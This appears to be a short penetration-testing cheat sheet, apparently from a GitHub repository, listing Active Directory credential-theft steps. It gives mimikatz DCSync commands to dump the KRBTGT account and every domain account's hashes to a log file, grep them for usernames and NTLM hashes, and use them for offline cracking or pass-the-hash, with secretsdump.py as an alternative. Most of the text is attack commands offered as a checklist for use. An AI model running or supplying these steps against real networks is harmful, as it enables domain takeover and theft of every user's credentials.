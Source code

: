 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

#### 1) mimikatz

#### 2) lsadump::dcsync /domain:DOMAIN /user:OUR_LOW-PRIVILEGE_AD_USERNAME

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

### Privileges: Replicate Directory Changes, Replicate Directory Changes All

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT

# DCSync every single account

#### 1) mimikatz

#### 2) log USERNAME_dcdump.txt

#### 3) lsadump::dcsync /domain:DOMAIN /all

#### 4) exit

#### 5) Download file

#### 6) cat FILE.txt | grep "SAM Username"

#### 7) cat FILE.txt | grep "Hash NTLM"

#### 8) Offline password cracking / Pass-theHash (Mimikatz)
